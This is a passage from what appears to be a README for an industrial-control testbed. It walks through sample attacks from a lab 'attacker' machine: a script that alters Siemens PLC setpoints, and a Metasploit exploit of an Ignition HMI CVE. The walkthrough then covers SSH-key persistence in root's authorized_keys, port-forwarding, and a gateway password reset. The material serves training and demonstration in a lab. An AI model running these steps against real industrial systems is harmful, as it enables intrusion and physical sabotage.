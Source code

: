 Navigate back to `ignition`.
The screen should now look like this:
![Ignition blacked out](img/ignition-blackout.png)

### Running an attack scenario
A sample 'attack' that changes setpoints on the Siemens PLC is implemented in the `plc-attack.py` script injected into the `attacker` machine.
After launching the experiment, enter the `attacker` machine and navigate to `/phenix/`.
The script is runnable with
```bash
python3 plc-attack.py <STARTUP_DELAY_SECONDS> <NUMBER_REPEATS>
```

### Running an attack scenario in virtual-only mode
Another sample 'attack' can be demonstrated using a known CVE on the HMI. This can also be used on an implementation without Hardware-In-The-Loop.
1. After launching the experiment, enter the `attacker` machine and launch `msfconsole`
   * Start by finding the applicable exploit `search ignition`
   * Select the first exploit `use 3`
   * Set the required options, the RHOSTS, LHOST, and PythonPath
       ```bash
       set RHOSTS 10.117.4.70
       set LHOST 10.117.4.169
       set PythonPath python3
       ```
   * Run the exploit `exploit`
2. Add ssh keys to maintain persistence
   * On your host machine `ssh-keygen` to generate a new ssh key
   * In your metasploit session use `echo '[SSH-KEY]' > /root/.ssh/authorized_keys (you may need to create the .ssh directory)
3. Use port forwarding to get ignition designer
   * Use SSH to open a tunnel to the ignition machine `ssh root@10.117.4.70 -L 9999:localhost:8088`
   * Download the ignition designer from localhost:9999
4. Use your SSH session to restart the ignition password
   * On the ssh session `gwcmd --passwd` and reset the gateway `gwcmd -r`
   * Refresh your ignition webpage to reset the admin password
5. Connect to iginition HMI
   * Log in to the Ignition Designer application
   * Open the soap_hil-virt HMI